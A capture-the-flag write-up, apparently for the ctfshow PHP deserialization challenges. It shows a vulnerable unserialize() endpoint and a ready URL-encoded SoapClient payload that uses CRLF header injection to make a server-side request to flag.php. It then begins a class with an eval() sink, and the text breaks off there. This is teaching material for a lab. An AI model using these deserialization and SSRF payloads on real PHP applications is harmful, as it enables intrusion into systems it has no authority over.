 index.php

```php
<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

paylaod

```
$ua="ctfshow\r\nx-forwarded-for:127.0.0.1,127.0.0.1,127.0.0.1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:13\r\n\r\ntoken=ctfshow";
 
$client=new SoapClient(null,array('uri'=>"127.0.0.1/",'location'=>"http://127.0.0.1/flag.php",'user_agent'=>$ua));//请求头，请求地址，url，user_agent包括了所有需要的参数
 
echo urlencode(serialize($client));//序列化后通过vip传入

?vip=O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A10%3A%22127.0.0.1%2F%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A138%3A%22ctfshow%0D%0Ax-forwarded-for%3A127.0.0.1%2C127.0.0.1%2C127.0.0.1%0D%0AContent-Type%3Aapplication%2Fx-www-form-urlencoded%0D%0AContent-Length%3A13%0D%0A%0D%0Atoken%3Dctfshow%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D

flag.txt落地
访问flag.txt即可
```

# 261 

代码

```php
<?php
highlight_file(__FILE__);
class ctfshowvip
{
    public $username;
    public $password;
    public $code;

    // 构建的时候调用
    public function __construct($u, $p)
    {
        $this->username = $u;
        $this->password = $p;
    }

    // 反序列化执行是会被调用
    public function __wakeup()
    {
        if ($this->username != '' || $this->password != '') {
            die('error');
        }
    }

    // 调用对象方法时调用
    public function __invoke()
    {
        eval($this->code);
```